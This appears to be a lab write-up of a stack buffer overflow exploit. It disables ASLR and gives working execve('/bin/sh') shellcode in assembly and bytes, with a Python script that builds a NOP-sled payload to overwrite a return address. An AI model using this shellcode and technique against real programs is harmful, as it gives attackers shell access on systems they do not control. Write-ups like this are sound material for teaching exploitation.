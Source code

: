 
#Configuration 

Need to disable ASLR, stack protection, and canaries. 

Disable ASLR with: `echo 0 > /proc/sys/kernel/randomize_va_space`


#Writeup

We write assembly shellcode that will call execve into the stack and then overwrite the return address of the function to point back to this shellcode on the stack. 

To do this, we write a large nop sled and then the shellcode followed by filler and then the return address. We need to use the nop sled because we might not know the exact return address. Since ASLR is disables, it won't be too large a disparity so some trial and error should let us pwn the program.

The shellcode was crafter as such:

```
xor     rdx, rdx                ;Clear rax register
mov     qword rbx, '//bin/sh'   ;Move /bin//sh to rbx
shr     rbx, 0x8                ;Add null byte to end of string
push    rbx                     ;Push /bin//sh to stack
mov     rdi, rsp                ;Load address of /bin//sh to rdi
push    rdx                     ;Push null byte to stack to end argv array                 
sub     rsp, $8
mov     [rsp], rdi              ;Push address of /bin//sh to stack (push command was crashing)
mov     rsi, rsp                ;Load address of address of /bin//sh to rsi
mov     al, 0x3b                ;syscall number of execve is 59
syscall                         ;Call execve
```

and the python code to craft the input is here

```
shellcode = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x52\x48\x83\xec\x08\x48\x89\x3c\x24\x48\x89\xe6\xb0\x3b\x0f\x05"
ret_adr = "\xd5\xe8\xff\xff\xff\x7f\x00\x00"

nop_len = 500
payload = "\x90"*nop_len + shellcode + "a"*(0x400 - len(shellcode) - nop_len) + "b"*8 + ret_adr

print payload
```
